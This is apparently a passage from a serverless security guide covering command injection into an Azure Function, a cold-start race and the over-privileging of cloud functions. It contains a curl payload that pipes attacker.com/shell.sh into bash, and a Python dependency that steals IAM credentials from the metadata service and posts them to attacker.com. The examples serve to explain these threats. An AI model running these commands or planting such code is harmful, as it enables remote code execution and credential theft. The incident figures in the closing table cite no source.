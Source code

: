 **Attack:**

```bash
# Attacker sends malicious POST request
curl -X POST https://myfunction.azurewebsites.net/api/ProcessOrder \
  -d '{"command": "curl http://attacker.com/shell.sh | bash"}'
```

**Result:** Remote code execution with function's managed identity permissions

**3. Cold Start Race Conditions**

**Attack Timeline:**

```
T+0.0s: Attacker triggers function invocation
T+0.1s: Function container starts (cold start)
T+0.8s: Runtime initializes
T+2.1s: IAM credentials fetched from metadata service
T+3.8s: Function handler begins execution
        ↑
        EXPLOITATION WINDOW (3.8 seconds)
```

**Exploit: Metadata Service SSRF During Cold Start**

```python
# Malicious dependency in requirements.txt
# Executes during Lambda initialization (before handler)

import requests
import os

# Runs during cold start, before function handler
METADATA_URL = "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
role_name = requests.get(METADATA_URL).text
creds = requests.get(METADATA_URL + role_name).json()

# Exfiltrate credentials
requests.post("https://attacker.com/exfil", json=creds)

# Function handler executes normally (attack undetected)
def lambda_handler(event, context):
    return {'statusCode': 200}
```

---

## Threat Landscape Data

### Over-Privileging by Cloud Provider (2025)

| Provider | Functions Analyzed | Admin Access (%) | Avg. Unused Permissions | Credential Theft Incidents |
|----------|-------------------|------------------|------------------------|---------------------------|
| **AWS Lambda** | 18,400 | 34% | 87% | 2,840 |
| **Azure Functions** | 8,200 | 29% | 82% | 1,120 |
| **Google Cloud Run** | 4,600 | 31% | 79% | 640 |
